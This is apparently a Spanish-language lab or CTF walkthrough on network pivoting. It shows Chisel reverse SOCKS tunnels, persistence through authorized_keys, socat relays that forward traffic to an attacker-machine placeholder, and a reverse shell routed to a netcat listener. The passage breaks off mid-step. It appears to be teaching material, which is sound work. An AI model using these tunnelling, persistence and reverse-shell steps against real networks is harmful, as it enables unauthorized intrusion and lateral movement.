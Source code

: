 ```bash
./chisel client ip_servidor:puerto R:socks R:puerto_maquina_victima_2:ip_maquina_victima_2:puerto_servidor/udp
```

  
Este comando establece una conexión de cliente utilizando Chisel, solicitando un reenvío de tráfico a través de SOCKS y un reenvío de tráfico UDP desde la máquina víctima 2 hacia una dirección IP y puerto específicos a través de nuestro servidor. Si deseas habilitar la conexión desde la máquina víctima 2 a la máquina atacante para compartir archivos, primero deberías copiar el archivo `socat` en la máquina víctima 1, ya que es el nodo más cercano a la máquina víctima 2, estando ambas en el mismo segmento de red. Puedes descargar `socat` desde el siguiente enlace: [enlace a socat](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat). Una vez descargado, muévelo a nuestra máquina víctima 1 con el siguiente comando, para lo cual ya deberías haber establecido la persistencia colocando tu clave pública en el directorio `authorized_keys` de la máquina víctima 1. El comando es el siguiente:


```bash
scp archivo usuario@ip:/directorio/archivo
```


Ya con el archivo copiado en la máquina víctima 1, lo ejecutamos de la siguiente manera:

```bash
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_atacante:puerto_maquina_atacante 
```

Este comando establece un reenvío de puerto TCP, redirigiendo todas las conexiones entrantes a otra dirección IP y puerto. Entonces, ahora podemos abrir un servidor con Python en la máquina atacante. Desde la máquina víctima 2, nos conectamos al puerto en escucha de la máquina víctima 1, ya que es el nodo más cercano. Una vez conectados, la máquina víctima 1 redirigirá todo su tráfico a la dirección IP de la máquina atacante, permitiendo así que la máquina atacante 2 tenga acceso a la máquina atacante y podremos compartir archivos.


Si deseamos enviar una reverse shell desde la máquina víctima 2 a la máquina atacante, el proceso es similar. Primero, necesitamos estar en modo de escucha en la máquina atacante en cualquier puerto disponible con ayuda de netcat. Luego, usamos un comando similar al anterior, pero este será ejecutado en la máquina víctima 1. En este comando especificamos el puerto y la dirección IP en escucha, a donde enviaremos la reverse shell. En este caso, si queremos enviar la reverse shell desde la máquina víctima 2 a la máquina atacante, el comando sería el siguiente:

```bash 
socat TCP-LISTEN:puerto_escucha,fork TCP:ip_maquina_atacante:puerto_maquina_atacante 
```

Finalmente, enviamos la reverse shell con el típico one-liner al nodo más cercano, en este caso, a la máquina víctima 1, a través del puerto especificado. Al hacer esto, `socat` redirigirá todo a nuestra máquina atacante, estableciendo así una reverse shell.

Al ganar acceso a la máquina víctima 2, parece que tiene otro segmento de red. Al descubrir los hosts de este nuevo segmento, observamos dos equipos: uno con Windows (máquina víctima 4) y otro con Linux (máquina víctima 3). Por lo tanto, necesitaremos crear un túnel de tipo SOCKS5.


Primero, copiaremos Chisel a la máquina víctima 2 de la misma manera que lo hicimos anteriormente, utilizando SCP. Dado que la persistencia debe estar establecida con la ayuda de la clave pública en el directorio authorized_keys, procederemos a hacer visible la máquina víctima 3 desde la máquina atacante. Para ello, ingresaremos a la máquina víctima 1 y ejecutaremos el siguiente comando de Socat:
